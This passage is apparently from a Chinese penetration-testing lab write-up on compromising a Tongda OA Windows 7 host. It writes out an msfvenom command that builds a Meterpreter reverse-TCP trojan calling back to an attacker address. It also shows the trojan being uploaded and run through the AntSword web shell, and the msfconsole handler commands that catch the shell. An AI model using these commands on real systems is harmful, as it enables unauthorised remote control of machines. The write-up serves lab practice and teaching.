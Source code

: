 ![image-20220309151316982](https://gitee.com/xxb667/img/raw/master/img/image-20220309151316982.png)

得到两个网卡信息：

```
网卡1：192.168.1.21
网卡2：10.0.20.98
非域环境
```

### 3.2 msfvenom 生成木马 获取shell

同时可以联动CS

```shell
msfvenom  -p  windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.34 LPORT=4444 -f exe -o /home/xxb1/xb.exe
```

![image-20220309153034943](C:/Users/18393/AppData/Roaming/Typora/typora-user-images/image-20220309153034943.png)

生成的木马用中国蚁剑上传到Windows 7 目标机器

![image-20220309153225371](https://gitee.com/xxb667/img/raw/master/img/image-20220309153225371.png)

MSF开启监听  然后用蚁剑运行xb.exe

```
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost eth0
run
```

![image-20220309153949947](C:/Users/18393/AppData/Roaming/Typora/typora-user-images/image-20220309153949947.png)

蚁剑的运行

![](https://gitee.com/xxb667/img/raw/master/img/image-20220309154256689.png)

kali进行查看

![image-20220309154256689](https://gitee.com/xxb667/img/raw/master/img/image-20220309154256689.png)

通达OA 是系统权限，所以省去提权

![image-20220309153540909](https://gitee.com/xxb667/img/raw/master/img/image-20220309153540909.png)

由于我们的权限较高，而且是64位的木马，所以这里我们可以不迁移进程。

### 3.3 *联动CS上线（可选）：



cs设置监听器 端口不要和msf一样
